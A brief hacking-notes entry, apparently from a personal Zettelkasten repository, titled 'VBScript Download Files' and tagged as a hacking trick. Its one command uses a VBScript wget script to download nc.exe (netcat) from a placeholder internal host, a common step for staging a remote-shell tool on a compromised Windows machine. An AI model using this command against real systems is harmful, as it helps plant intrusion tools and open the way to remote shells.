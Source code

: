 # VBScript Download Files

```
cscript wget.vbs http://192.168.0.1/nc.exe nc.exe
```

` zet/20221003151228/README.md `

# Related

- [20221003151230](/zet/20221003151230/README.md) VBScript
- ~/kb/hacking/tricks/vbscript-wget-hack.md

Tags:

    #hacking #trick #vbscript 
